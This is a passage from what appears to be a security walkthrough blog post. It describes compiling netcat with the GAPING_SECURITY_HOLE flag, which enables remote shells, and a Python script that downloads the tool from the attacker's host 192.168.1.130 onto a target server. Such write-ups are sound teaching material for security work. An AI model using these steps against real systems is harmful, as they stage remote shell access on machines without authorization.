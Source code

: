 A few changes needed to be made to get it to compile without errors. I commented out line 1319 in netcat.c:

![](/images/2013-12-12/11.png)

Next, I modified the Makefile and added -DGAPING_SECURITY_HOLE to the XFLAGS in line 70: 

![](/images/2013-12-12/12.png)

Finally I built it using make linux. Now that netcat was compiled, I needed a way to transfer it. Fortunately python was installed on the server. I wrote the following python script which would download the statically linked netcat to the target:

```python
#!/usr/bin/python
import urllib2, urllib, sys
urllib.urlretrieve("http://192.168.1.130/" + sys.argv[1], sys.argv[1]);
```

I saved this as grab.py. Finally I copied netcat to /var/www on my machine and start the Apache webserver. Using grab.py, I transferred netcat over:

![](/images/2013-12-12/13.png)
